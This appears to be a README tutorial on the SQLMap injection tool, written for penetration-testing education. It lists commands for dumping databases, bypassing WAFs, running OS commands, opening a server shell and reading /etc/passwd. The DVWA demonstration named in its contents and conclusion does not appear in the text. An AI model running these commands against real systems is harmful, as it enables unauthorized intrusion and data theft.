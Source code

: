 # SQLMap Complete Tutorial with Practical Demonstration

## Table of Contents
1. [Introduction to SQLMap](#introduction-to-sqlmap)
2. [Installation](#installation)
3. [Basic Commands](#basic-commands)
4. [Practical Demonstration on DVWA](#practical-demonstration-on-dvwa)
5. [Proof of Work](#proof-of-work)
6. [Advanced Techniques](#advanced-techniques)
7. [Defense Mechanisms](#defense-mechanisms)
8. [Ethical Considerations](#ethical-considerations)

## Introduction to SQLMap

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches for database fingerprinting, data fetching, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Installation

SQLMap is pre-installed on Kali Linux. For other systems:

```bash
# Clone the latest version from GitHub
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Or install via package manager (Kali/Ubuntu)
sudo apt update && sudo apt install sqlmap
```

## Basic Commands

### Basic URL Testing
```bash
sqlmap -u "http://example.com/page.php?id=1"
```

### Testing with POST Data
```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin"
```

### Testing with Cookies
```bash
sqlmap -u "http://example.com/restricted/page.php" --cookie="PHPSESSID=abc123"
```

### Specifying HTTP Method
```bash
sqlmap -u "http://example.com/api/user" --method=PUT --data="id=1"
```

### Database Enumeration
```bash
# List databases
sqlmap -u "http://example.com/page.php?id=1" --dbs

# List tables in a specific database
sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables

# List columns in a specific table
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data from specific columns
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```

### Advanced Options
```bash
# Specify user-agent
sqlmap -u "http://example.com/page.php?id=1" --user-agent="SQLMAP"

# Use random user-agent
sqlmap -u "http://example.com/page.php?id=1" --random-agent

# Use proxy
sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Set delay between requests
sqlmap -u "http://example.com/page.php?id=1" --delay=5

# Set timeout
sqlmap -u "http://example.com/page.php?id=1" --timeout=30

# Retry on failure
sqlmap -u "http://example.com/page.php?id=1" --retries=3
```


### Bypassing WAFs
```bash
# Use tamper scripts to bypass WAFs
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment

# Use multiple tamper scripts
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment,between
```

### OS Interaction
```bash
# Execute operating system commands
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="whoami"

# Get an interactive OS shell
sqlmap -u "http://example.com/page.php?id=1" --os-shell
```

### File System Access
```bash
# Read files from the server
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"

# Upload files to the server
sqlmap -u "http://example.com/page.php?id=1" --file-write="local.txt" --file-dest="remote.txt"
```

## Defense Mechanisms

To protect against SQL injection attacks:

1. **Use Prepared Statements** (Parameterized Queries)
2. **Implement Input Validation**
3. **Apply the Principle of Least Privilege** to database accounts
4. **Use Web Application Firewalls** (WAFs)
5. **Regularly Update and Patch** systems
6. **Implement Proper Error Handling** (don't expose database errors to users)
7. **Conduct Regular Security Audits** and penetration testing

## Ethical Considerations

1. Always obtain proper authorization before testing any system
2. SQLMap should only be used on systems you own or have permission to test
3. Unauthorized access to computer systems is illegal
4. DVWA is designed for educational purposes in controlled environments
5. Respect privacy and confidentiality of any data encountered during testing

## Conclusion

SQLMap is a powerful tool for detecting and exploiting SQL injection vulnerabilities. This tutorial demonstrated its basic usage through a practical example on DVWA. Remember to always use this tool ethically and legally, and to implement proper security measures to protect your own applications from such vulnerabilities.

For more information, refer to the [official SQLMap documentation](https://github.com/sqlmapproject/sqlmap/wiki).